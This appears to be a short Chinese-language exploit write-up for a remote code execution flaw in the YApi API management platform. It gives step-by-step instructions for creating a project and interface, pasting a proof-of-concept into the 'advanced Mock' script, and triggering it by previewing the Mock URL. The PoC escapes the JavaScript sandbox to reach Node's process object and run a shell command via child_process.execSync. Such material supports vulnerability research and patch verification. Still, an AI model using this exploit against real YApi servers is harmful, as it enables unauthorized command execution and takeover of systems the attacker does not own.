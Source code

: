 1. 在首页下方找到登录/注册功能接口，或直接访问 /login 路径进行登录和注册。
2. 登录之后进入个人空间，在右侧点击添加项目；
3. 添加成功后进入项目，点击右侧同一位置有个“添加接口”
4. 添加完之后，打开接口，进入“高级Mock”功能，点击脚本，输入Poc，点击保存即可。
5. 点击“预览”，访问Mock地址，即可触发漏洞POC。

![图片](/resource/Yapi_Mock_RCE.assets/640-20230217124803366.png)

POC如下：

```
const process = this.constructor.constructor('return process')()mockJson = process.mainModule.require("child_process").execSync("whoami").toString()
```

点击“预览”，访问Mock地址，即可触发漏洞POC：

![图片](/resource/Yapi_Mock_RCE.assets/640-20230217124803369.png)
